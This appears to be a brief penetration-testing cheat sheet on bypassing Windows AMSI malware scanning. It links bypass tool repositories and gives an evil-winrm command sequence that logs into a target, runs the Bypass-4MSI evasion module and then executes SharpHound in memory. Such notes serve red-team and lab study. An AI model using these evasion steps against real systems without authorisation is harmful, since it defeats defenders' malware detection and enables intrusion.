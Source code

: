 ## Testing for Amsi Bypass:

- https://github.com/rasta-mouse/AmsiScanBufferBypass

## Amsi-Bypass-PowerShell

- https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

## using evil-winrm

When you have a winrm shell with evil-winrm you can use the bypass amsi module to bypass amsi detection's on your target: 

```
evil-winrm -i 172.16.1.1 -u afsimmons -p "" -e /opt/privesc
Bypass-4MSI
menu
Invoke-Binary /opt/privesc/SharpHound.exe
```

## Resources:

- https://blog.f-secure.com/hunting-for-amsi-bypasses/
- https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
- https://github.com/cobbr/PSAmsi/wiki/Conducting-AMSI-Scans
- https://slaeryan.github.io/posts/falcon-zero-alpha.html
- https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/